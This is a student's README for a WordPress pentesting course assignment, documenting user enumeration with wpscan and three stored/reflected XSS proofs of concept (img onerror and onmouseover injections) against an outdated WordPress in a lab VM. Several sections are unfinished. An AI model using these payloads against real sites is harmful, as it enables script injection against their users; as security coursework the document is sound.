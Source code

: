# Project 7/8 - WordPress Pentesting

Time spent: **17** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) WordPress Reflex Gallery User Enumeration
  - [X] Summary: 
   - Vulnerability types: User Enumeration
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
  - <img src='vid1.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />

  - [X] Steps to recreate: 
 - Download the 3.1.3 zip file
 - Add the WordPress admin console through WP Dashboard. 
 - Once installed run "wpscan --url http://wpdistillery.vm --random-user-agent" into Kali
  - [X] Affected source code:
    - 
### 2. (Required) Cross-Site Scripting
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
   <img src='vid2.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [X] Steps to recreate:
  - Edit a new post, and insert  http:// site.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)> and press preview.  Then 1 will pop up   - in the new window. 
  - [X] Affected source code:
    
### 3. (Required) Cross-Site Scripting 
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
   <img src='vid3.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [X] Steps to recreate: 
  - Edit a new post, and insert  http:// site.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(3)> and press preview.  Then 3 will pop up   - in the new window. 
  - [X] Affected source code:
   
### 4. (Optional) Cross-Site Scripting 
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
   <img src='vid4.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [X] Steps to recreate: 
  - Edit a new post, and insert <a href="[caption code=">]</a><a title =" onmouseover=alert('Exploit4!') "> dont click the link.</a> " in the content link. Once you click the   - link the 'Exploit4!' window will pop up. 
  - [X] Affected source code:
   

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Trying to configure my Kali was the hardest part of this assinment. 

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
